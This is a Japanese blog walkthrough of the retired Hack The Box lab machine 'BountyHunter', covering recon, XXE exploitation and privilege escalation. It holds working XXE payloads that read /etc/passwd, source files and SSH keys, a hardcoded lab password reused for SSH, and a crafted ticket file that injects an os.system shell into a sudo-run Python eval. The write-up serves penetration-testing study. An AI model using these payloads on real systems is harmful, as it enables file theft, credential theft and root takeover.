


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「BountyHunter」のWriteUpです。



<!-- omit in toc -->
## もくじ
- [XXE(XML外部実体参照)](#xxexml外部実体参照)
  - [DTD](#dtd)
- [探索](#探索)
- [XXEの悪用](#xxeの悪用)
- [権限昇格](#権限昇格)
  - [ticketValidator.py](#ticketvalidatorpy)
- [まとめ](#まとめ)

## XXE(XML外部実体参照)

Flag取得の手順の前に、今回最初に使用するXXEについて概要をまとめます。

 XXEは`XML External Entity `の略称でありXMLの外部実体参照を悪用する脆弱性です。

XXEを悪用することで、サーバ内のファイルの取得や情報収集、SSRF攻撃など様々な攻撃に利用できます。

参考：[XXE攻撃 基本編 | MBSD Blog](https://www.mbsd.jp/blog/20171130.html)

参考：[XML External Entity (XXE) Processing | OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

参考：[体系的に学ぶ 安全なWebアプリケーションの作り方 第2版](https://amzn.to/3cKRReL)

### DTD

DTDはXMLで定義されるスキーマを意味しXMLファイルの構造を定義することができます。

`<!ENTITY`を用いることで実体参照を呼び出すことができ、文字列の置換や、外部ファイルの内容を埋め込むことができます。

参考：[XML用語事典 [DTD (Document Type Definition)]](https://atmarkit.itmedia.co.jp/aig/01xml/dtd.html)

参考：[Document Type Definition - Wikipedia](https://ja.wikipedia.org/wiki/Document_Type_Definition)

## 探索

とりあえずnmapをかけます。

``` bash
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-25 18:26 JST
Nmap scan report for targethost.htb (10.10.11.100)
Host is up (0.54s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.60 seconds
```

80番ポートが開いているのでWEBアクセスし、探索すると、以下のようなフォームが見つかります。



ついでにferoxbusterを使ってディレクトリの探索も仕掛けます。

バックエンドはPHPのようなので、オプションはPHPを指定しています。

``` bash
feroxbuster -u http://targethost.htb/ -x php -w /usr/share/wordlists/raft-medium-directories.txt --no-recursion | tee feroxbuster.txt

301        9l       28w      313c http://targethost.htb/js
301        9l       28w      314c http://targethost.htb/css
301        9l       28w      317c http://targethost.htb/assets
200        0l        0w        0c http://targethost.htb/db.php
301        9l       28w      320c http://targethost.htb/resources
200      388l     1470w        0c http://targethost.htb/index.php
200        5l       15w      125c http://targethost.htb/portal.php
```

フォームのスクリプトを見ると、各入力値をもとにXML文を作成し、Base64エンコーディングした上で`/tracker_diRbPr00f314.php`にPOST送信しているようです。（実際に送信する文字列はBase64されたものをさらに改変してそうなのですが、どこで何をしているのかわからず。）

``` javascript
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

とりあえずXXEが使えそうなので、次から色々試してみます。

## XXEの悪用

Googleコンソールから、スクリプトを以下のように改変してフォームを実行します。

``` javascript
async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">] > 
		<bugreport>
		<title>&xxe;</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

これで`title`要素にBase64エンコーディングされたpasswdが返ってきます。

一般ユーザの名前を見ると`development`となっていたので、以下のようなXXEでユーザフラグや秘密鍵が取れないか試してみたのですが、残念ながら失敗しました。

``` bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/development/user.txt">] >
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/development/Desktop/user.txt">] >
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/development/.ssh/id_rsa">] >
```

そこで、サーバ内で稼働している他のファイルの情報を取得していくことにしました。

先ほどのfeloxbusterの結果から、`db.php`というファイルが怪しそうです。

``` php
# <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```

実際に取得できたファイルはこちらでした。

DBのクレデンシャル情報がベタ打ちされています。

DBのアクセスエンドポイントは見当たらなかったので次にどうするか迷いましたが、だめもとでSSHのパスワードに使用してみたところ、アクセスに成功し、userを取得できました。

``` bash
ssh development@targethost.htb
# m19RoAU0hP41A1sTsq6K
```

次はrootを取得していきます。

## 権限昇格

ここからは権限昇格を行っていきます。

とりあえずlinpeasをかけて、目ぼしい情報を拾いました。

``` bash
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 5.4.0-80-generic (buildd@lcy01-amd64-030) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.2 LTS
Release:        20.04
Codename:       focal

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31

Possible Exploits:
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```

いくつか脆弱性もありそうですが、今回はパスワードなしでsudo権限を利用できる`ticketValidator.py`が気になりました。

### ticketValidator.py

こんなスクリプトでした。

``` python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

特定のフォーマットのファイルを引数として受け取り、パースするスクリプトのようです。

システム内を探索すると、チケットのフォーマットがわかりました。

``` bash
#cat /opt/skytrain_inc/invalid_tickets/390681613.md

# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

ここで、`__Ticket Code:__`の次の行の`+`で連結された一つ目の数字の7のmodが4の場合に、evalが呼び出されるようです。

これで、``**31+410+86**`の部分がevalの引数になるので、この中にシェルを起動するコマンドを埋め込んでいこうと思います。

evalからシェルを呼び出す方法は、こちらのStack Overflowが参考になりました。

参考：[Python - running reverse shell inside eval() - Stack Overflow](https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval)

というわけで、以下のようなファイルを作成しました。

``` bash
#cat mal.md

# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**11+100 != 0 and __import__('os').system('/bin/bash') == False**
##Issued: 2021/04/06
#End Ticket
```

これをsudo権限で実行した`ticketValidator.py`から呼び出せばrootのシェルが取得できます。

## まとめ

マシン名のとおり、自分でバグを見つけ出してrootを取得するというプロセスがあってなかなか面白かったです。
